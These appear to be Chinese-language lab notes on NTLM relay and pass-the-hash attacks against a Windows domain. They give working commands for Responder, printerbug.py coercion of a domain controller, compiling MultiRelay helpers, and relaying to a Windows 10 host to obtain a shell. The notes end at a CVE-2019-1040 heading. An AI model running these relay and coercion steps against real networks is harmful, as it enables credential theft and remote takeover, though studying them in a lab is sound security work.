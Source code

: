 # 三、PTH relay (pass the hash)

应用：

~~~shell
1、文件夹里的ini文件（里面有配置，可以写远程地址）
2、用工具在pdf里的reference
3、Printer Bug：给打印机给一个远程IP，访问后就可以抓到“域控”身份信息。
		前提：经过身份认证的域用户
# printer bug的复现：
1、python responder.py -i 【win8IP】 --lm -I eth0
2、python3 printerbug.py qax.com/kbsuser@192.168.152.132 192.168.152.129
# 基础名词
GSS-API：通用安全服务应用程序接口(GSSAPI) 是为了让程序能够访问安全服务的一个应用程序接口。
~~~



## 1、Relay

~~~shell
dc: 152.132 
kali:152.129
win10:152.130
# 前提：
1、不能开启数字签名
2、打了补丁的老系统无法利用
# crpto安装 & 复现
1、/usr/share/responder/tools
apt-get install gcc-mingw-w64-x86-64
x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv                                              
x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode
2、responder-MultiRelay -h
3、python2 MultiRelay.py -t win10 -u ALL
4、python3 printerbug.py qax.com/kbsuser@192.168.152.132 192.168.152.129

# 问题排查：win10无法返回shell
域控添加domain admins
cmd --> gpundate
# 拿到shell验证：
hostname/whoami
# wireshark过滤找数据包
ip.dst==192.168.101.8 
ip.src==1.1.1.1
tcp.port==80
http.request.method=="GET"
# 如何排查：ctrl+F 输入：system
~~~



## 2、漏洞：CVE-2019-1040
